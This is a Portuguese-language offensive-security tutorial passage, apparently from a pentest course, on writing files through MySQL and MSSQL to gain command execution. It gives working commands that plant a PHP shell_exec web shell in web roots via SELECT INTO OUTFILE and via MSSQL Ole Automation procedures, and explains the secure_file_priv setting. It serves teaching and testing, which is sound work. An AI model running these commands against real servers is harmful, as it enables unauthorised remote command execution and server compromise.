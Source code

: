 # Gravar arquivos locais

`MySQL` não possui um procedimento armazenado como `xp_cmdshell`, mas podemos conseguir a execução do comando se escrevermos em um local no sistema de arquivos que possa executar nossos comandos. Por exemplo, suponha que `MySQL` opere em um servidor web baseado em PHP ou em outras linguagens de programação como ASP.NET. Se tivermos os privilégios apropriados, podemos tentar escrever um arquivo usando [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) no diretório do servidor web. Então podemos navegar até o local onde o arquivo está e executar nossos comandos.

## MySQL - Gravar arquivo local

```shell
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';

Query OK, 1 row affected (0.001 sec)
```

Em `MySQL`, uma variável de sistema global [secure_file_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv) limita o efeito das operações de importação e exportação de dados, como aquelas executadas pelas instruções `LOAD DATA` e `SELECT … INTO OUTFILE`e pela função [LOAD_FILE()](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_load-file) . Essas operações são permitidas apenas para usuários que possuem o privilégio [FILE .](https://dev.mysql.com/doc/refman/5.7/en/privileges-provided.html#priv_file)

`secure_file_priv` pode ser definido da seguinte forma:

- Se estiver vazia, a variável não terá efeito, o que não é uma configuração segura.
- Se definido como o nome de um diretório, o servidor limita as operações de importação e exportação para funcionar apenas com arquivos nesse diretório. O diretório deve existir; o servidor não o cria.
- Se definido como NULL, o servidor desabilita as operações de importação e exportação.

No exemplo a seguir, podemos ver que a variável `secure_file_priv` está vazia, o que significa que podemos ler e escrever dados usando `MySQL`:

## MySQL - privilégios de arquivo seguros

```shell
mysql> show variables like "secure_file_priv";

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+

1 row in set (0.005 sec)
```

Para gravar arquivos usando `MSSQL`, precisamos habilitar [Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option) , que requer privilégios de administrador, e então executar alguns procedimentos armazenados para criar o arquivo:

## MSSQL - Habilitar procedimentos de automação Ole

```shell
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

## MSSQL - Criar um arquivo

```shell
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

